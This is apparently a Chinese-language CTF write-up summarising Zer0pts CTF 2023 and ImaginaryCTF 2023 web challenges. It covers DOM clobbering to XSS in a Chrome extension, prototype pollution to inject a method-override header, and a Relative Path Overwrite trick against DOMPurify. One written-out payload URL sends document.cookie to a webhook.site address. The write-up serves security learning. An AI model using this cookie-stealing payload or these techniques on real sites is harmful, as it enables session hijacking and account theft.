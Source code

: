 ### Ringtone (14 solves)

這題有點小複雜，簡單記一下就好，就是可以透過 DOM clobbering 拿到一個在 Chrome extension context 的 XSS，接著用 `chrome.history.search` 可以拿到 flag URL，就可以去拿 flag。

作者 writeup：[Ringtone Web Challenge Writeup - Zer0pts CTF 2023](https://ahmed-belkahla.me/post/zer0ptsctf2023/)

### Plain Blog (14 solves)

這題是一個 blog app，你需要有拿 flag 的權限才能拿到 flag，而要有這個權限你的 post 必須有 1_000_000_000_000 以上的 like，但想也知道網站有擋 max like，根本湊不了這麼多。

解法是前端有個 prototype pollution 的洞，透過這個洞去污染 fetch 的參數，放入 `X-HTTP-Method-Override: PUT` 的 header，就可以讓 admin bot 直接去 call 另一隻 API 拿到權限。

## ImaginaryCTF 2023

### Sanitized (5 solves)

這題的程式碼滿簡短的，值得注意的就是 CSP 為 `default-src 'self'`，然後 Express 那邊有個路徑是：

``` js
app.use((req, res) => {
  res.type('text').send(`Page ${req.path} not found`)
})
```

看得出來需要利用這個路徑的 response 作為 script 來執行。

在前端的部分就是很經典的呼叫 DOMPurify：

``` js
const params = new URLSearchParams(location.search)
const html = params.get('html')
if (html) {
  document.getElementById('html').value = html
  document.getElementById('display').innerHTML = DOMPurify.sanitize(html)
}
```

在 `index.xhtml` 裡面載入 main.js 時，是採用相對路徑：`<script src="main.js"></script>`。

我們先來看一下 unintended 的解法，滿有趣的。

非預期解是直接讓 bot 載入這個路徑：`/1;var[Page]=[1];location=location.hash.slice(1)+document.cookie//asd%2f..%2f..%2findex.xhtml#https://webhook.site/65c71cbd-c78a-4467-8a5f-0a3add03e750?`

這是利用了 RPO（Relative Path Overwrite）來搞事，對後端來說 `%2f` 會被解析為 /，所以這個 URl 就是在載入 `index.xhtml`，沒啥問題。

但是對瀏覽器來說，當前的路徑變為 `1;var[Page]=[1];location=location.hash.slice(1)+document.cookie//`，因此會載入 `/1;var[Page]=[1];location=location.hash.slice(1)+document.cookie//main.js`，而根據 Express 的 route，response 就會是：

```
Page /1;var[Page]=[1];location=location.hash.slice(1)+document.cookie//main.js not found
```
